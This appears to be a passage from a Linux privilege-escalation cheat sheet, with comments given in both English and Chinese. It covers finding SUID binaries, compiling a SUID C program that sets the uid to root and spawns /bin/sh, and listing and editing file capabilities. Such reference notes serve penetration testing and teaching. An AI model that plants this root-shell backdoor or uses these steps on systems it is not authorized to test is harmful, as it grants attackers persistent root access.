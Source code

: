 ```
# If the file owner is `root`, the uid will be changed to `root` even if it was executed from user `bob`.
# SUID bit is represented by an `s`.



╭─swissky@lab ~  
╰─$ ls /usr/bin/sudo -alh                  
-rwsr-xr-x 1 root root 138K 23 nov.  16:04 /usr/bin/sudo

# ---------------
# Find SUID binaries
# 寻找已有SUID二进制程序

find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;

# ---------------
# Create a SUID binary
# 创建一个SUID二进制程序

print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit

```


#### Capabilities

功能

```
# ---------------
# List capabilities of binaries
# 列出二进制文件的功能


╭─swissky@lab ~  
╰─$ /usr/bin/getcap -r  /usr/bin
/usr/bin/fping                = cap_net_raw+ep
/usr/bin/dumpcap              = cap_dac_override,cap_net_admin,cap_net_raw+eip
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/rlogin               = cap_net_bind_service+ep
/usr/bin/ping                 = cap_net_raw+ep
/usr/bin/rsh                  = cap_net_bind_service+ep
/usr/bin/rcp                  = cap_net_bind_service+ep


# ---------------
# Edit capabilities
# 编辑功能

/usr/bin/setcap -r /bin/ping            # remove
/usr/bin/setcap cap_net_raw+p /bin/ping # add


# ---------------
# Interesting capabilities
# 有趣的功能

# Having the capability =ep means the binary has all the capabilities.
# capability = ep 意味着这个二进制文件具有所有功能。


```